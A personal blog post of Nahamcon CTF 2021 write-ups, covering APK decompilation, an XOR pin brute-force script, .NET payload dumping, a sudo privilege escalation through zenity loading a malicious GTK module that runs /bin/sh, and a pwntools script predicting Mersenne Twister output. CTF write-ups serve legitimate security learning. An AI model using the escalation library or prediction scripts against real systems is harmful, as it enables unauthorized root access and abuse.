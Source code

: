 ```yaml
---
layout: post
title:  "Nahamcon CTF 2021 writeups"
date:   2021-03-14 19:59:36 +0200
categories: ctf
---
```



These are the writeups for[Nahamcon CTF 2021](https://ctf.nahamcon.com/) challenges that I personally solved.

## Buzz

```
gzip -dc buzz
flag{b3a33db7ba04c4c9052ea06d9ff17869}
```

## Resourceful

Decompile [online](https://www.apkdecompilers.com/) and search for the word **flag**:


```java=
((TextView) findViewById(R.id.flagTV)).setText("flag{".concat(getResources().getString(R.string.md5)).concat("}"));
```
The resource is easily found from `strings.xml`:
```xml=
 <string name="md5">7eecc051f5cb3a40cd6bda40de6eeb32</string>
```

## Andra

Decompile [online](https://www.apkdecompilers.com/) and search for the word **flag**:

```xml=
<?xml version="1.0" encoding="utf-8"?>
<androidx.constraintlayout.widget.ConstraintLayout
...
android:text="flag{d9f72316dbe7ceab0db10bed1a738482}" android:textAlignment="center" />
    </LinearLayout>
</androidx.constraintlayout.widget.ConstraintLayout>
```

## Microscopium

Decompile [online](https://www.apkdecompilers.com/) and search for the word **flag**:

This time it's hidden in a Javascript function. It's an XOR encryption with a partial key + a user entered pin code:

```javascript=
function b() {
                var t;
                (0, o.default)(this, b);
                for (var n = arguments.length, l = new Array(n), u = 0; u < n; u++) l[u] = arguments[u];
                return (t = v.call.apply(v, [this].concat(l))).state = {
                    output: 'Insert the pin to get the flag',
                    text: ''
                }, t.partKey = "pgJ2K9PMJFHqzMnqEgL", t.cipher64 = "AA9VAhkGBwNWDQcCBwMJB1ZWVlZRVAENW1RSAwAEAVsDVlIAV00=", t.onChangeText = function(n) {
                    t.setState({
                        text: n
                    })
                }, t.onPress = function() {
                    var n = p.Base64.toUint8Array(t.cipher64),
                        o = y.sha256.create();
                    o.update(t.partKey), o.update(t.state.text);
                    for (var l = o.hex(), u = "", c = 0; c < n.length; c++) u += String.fromCharCode(n[c] ^ l.charCodeAt(c));
                    t.setState({
                        output: u
                    })
                }, t
            }
```

Simply brute force the pin codes with some node.js:

```javascript=
function pad(number, length) {
    var str = '' + number;
    while (str.length < length) {
        str = '0' + str;
    }
    return str;
}

var sha256 = require('js-sha256');
var cipher64 = "AA9VAhkGBwNWDQcCBwMJB1ZWVlZRVAENW1RSAwAEAVsDVlIAV00=";
var partKey = "pgJ2K9PMJFHqzMnqEgL";
var toUint8Array = require('base64-to-uint8array');
var n = toUint8Array(cipher64);

for (var i=0 ; i < 10000; i++) {
    let pin = pad(i,4);
    var o = sha256.create();
    o.update(partKey);
    o.update(pin);
    for (var l = o.hex(),u="",c=0;c<n.length;c++) u+= String.fromCharCode(n[c] ^ l.charCodeAt(c));
    if (u.includes("flag{"))
        console.log(u);
}
```


## Alphabet soup

Start by dumping the embedded assembly to a file:
```csharp=
byte[] unfusked = Convert.FromBase64String(zcfZIEShfvKnnsZ(pTIxJTjYJE, YKyumnAOcgLjvK));
System.IO.File.WriteAllBytes("unfucked.exe",unfusked);
```

Use .NET decompiler (I used dotPeek) to decompile the program. Then dump the array to a file:

```csharp=
      Console.WriteLine("Not so fast!");
      System.IO.File.WriteAllBytes("whatnow",numArray);
```

The flag is embedded in the middle of the file.

## Zenith

Since we know the password let's take a look at sudo:

```bash=
sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zenith-0ce4b2b850612747-668869dc99-jp4gs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on zenith-0ce4b2b850612747-668869dc99-jp4gs:
    (root) /usr/bin/zenity
```
Ok, let's look how this could be exploited. From options we notice that additional libraries can be loaded, nice:

```
GTK+ Options
  --class=CLASS                                     Program class as used by the window manager
  --name=NAME                                       Program name as used by the window manager
  --gdk-debug=FLAGS                                 GDK debugging flags to set
  --gdk-no-debug=FLAGS                              GDK debugging flags to unset
  --gtk-module=MODULES                              Load additional GTK+ modules
  --g-fatal-warnings                                Make all warnings fatal
  --gtk-debug=FLAGS                                 GTK+ debugging flags to set
  --gtk-no-debug=FLAGS                              GTK+ debugging flags to unset
```

Let's make a evil library:

```c=
#include <iostream>
#include <gtk/gtk.h>
#include <stdlib.h>

extern "C" {
void gtk_module_init(gint *argc, gchar ***argv[]) {
    system("/bin/sh");
}
}
```

and compile:
```
g++ -fPIC -shared -Wl,-soname,libfoo.so.1 -olibfoo.so.1.0.1 `pkg-config --libs --cflags gtk+-3.0` evilgtk.c
```

and execute it:

```
sudo /usr/bin/zenity --gtk-module=/tmp/libfoo.so.1.0.1 --info --txt "pwnd"
```

note that to get display configured properly use `-X` option when you ssh into the box.

Get the flag:

```
# cd /root
# chmod a+x get_flag
# ./get_flag
flag{d1fbeab9101e0ee7fc1342e4c96b4603}
```

## Dice roll

The randomness is based on *Mersenne Twister* which is not cryptographically secure. Use https://github.com/tna0y/Python-random-module-cracker to predict the next roll:

```python=
import random, time
from randcrack import RandCrack
from pwn import *

rc = RandCrack()

r = remote('challenge.nahamcon.com', 31784)
r.recvuntil('>')

for i in range(624):
    r.send('2\n')
    r.recvline() #rolling
    result = int(r.recvline())
    rc.submit(result)
    print("i:"+str(i)+", :"+str(result))
    r.recvuntil('>')

print("Guessing the number is {}".format(rc.predict_randrange(0,4294967295)))
r.interactive()
```

